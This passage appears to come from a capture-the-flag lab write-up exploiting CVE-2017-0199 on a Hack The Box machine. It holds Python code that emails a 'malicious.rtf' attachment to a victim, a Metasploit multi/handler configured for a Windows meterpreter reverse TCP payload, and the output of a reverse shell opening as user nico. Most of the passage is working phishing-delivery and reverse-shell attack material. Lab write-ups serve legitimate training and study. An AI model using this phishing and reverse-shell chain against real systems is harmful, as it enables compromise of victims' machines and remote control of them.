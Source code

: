 ```python
msg.attach(MIMEText(body, 'plain'))

# Attach RTF file
filename = "malicious.rtf"
with open(filename, "rb") as attachment:
    part = MIMEBase('application', 'octet-stream')
    part.set_payload(attachment.read())
encoders.encode_base64(part)
part.add_header('Content-Disposition', f'attachment; filename={filename}')
msg.attach(part)

# Connect to SMTP server and send email
try:
    server = smtplib.SMTP(smtp_server, smtp_port)
    server.sendmail(from_email, to_email, msg.as_string())
    print("Email sent successfully!")
    server.quit()
except Exception as e:
    print(f"Error sending email: {e}")


┌──(kali㉿kali)-[~/htb/CVE-2017-0199]
└─$ python send_mail.py
Email sent successfully!
```

Metasploit Listener :
```bash
┌──(kali㉿kali)-[~/htb/CVE-2017-0199]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp 
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.4
LHOST => 10.10.14.4
msf6 exploit(multi/handler) > set LPORT 9000
LPORT => 9000
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.4:9000 
[*] Sending stage (201798 bytes) to 10.10.10.77
[*] Meterpreter session 1 opened (10.10.14.4:9000 -> 10.10.10.77:59447) at 2024-12-29 02:21:26 -0500

meterpreter > getuid
Server username: HTB\nico
```

I got a `nico`'s shell!


